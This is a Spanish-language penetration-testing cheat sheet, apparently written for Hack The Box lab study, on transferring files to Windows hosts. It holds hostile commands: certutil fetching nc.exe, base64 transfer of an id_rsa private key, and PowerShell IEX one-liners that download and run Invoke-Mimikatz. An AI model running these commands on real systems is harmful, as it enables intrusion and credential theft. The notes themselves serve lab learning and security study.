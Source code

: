 # Overview

En esta nota se describen métodos para transferir archivos entre máquinas.
# Windows

## [[80-http]] download

```pwsh
certutil -urlcache -f http://10.10.31.2/nc.exe nc.exe
```

## Base64

Codificando y decodificando en base64, podemos enviarnos un archivo:

```bash
cat id_rsa |base64 -w 0;echo
```
```powershell
PS C:\htb> [IO.File]::WriteAllBytes("C:\Users\Public\id_rsa", [Convert]::FromBase64String("<HASH>"))
```

## PowerShell Web Downloads

| Método                 | Descripción                                                                                           |
|------------------------|-------------------------------------------------------------------------------------------------------|
| OpenRead               | Devuelve los datos de un recurso como un flujo (Stream).                                              |
| OpenReadAsync          | Devuelve los datos de un recurso sin bloquear el hilo que lo llama.                                   |
| DownloadData           | Descarga datos de un recurso y devuelve un arreglo de bytes (Byte array).                             |
| DownloadDataAsync      | Descarga datos de un recurso y devuelve un arreglo de bytes sin bloquear el hilo que lo llama.        |
| DownloadFile           | Descarga datos de un recurso a un archivo local.                                                      |
| DownloadFileAsync      | Descarga datos de un recurso a un archivo local sin bloquear el hilo que lo llama.                    |
| DownloadString         | Descarga una cadena (String) de un recurso y devuelve una cadena.                                     |
| DownloadStringAsync    | Descarga una cadena (String) de un recurso sin bloquear el hilo que lo llama.                         |

### Descargar un archivo
```powershell
(New-Object Net.WebClient).DownloadFile('<Target File URL>','<Output File Name>')
(New-Object Net.WebClient).DownloadFileAsync('<Target File URL>','<Output File Name>')
```

```powershell
Invoke-WebRequest https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1 -OutFile PowerView.ps1
```
> Funciona pero es más lento.
### Ejecutar directamente una cadena
```powershell
IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1')
```
```powershell
(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1') | IEX
```
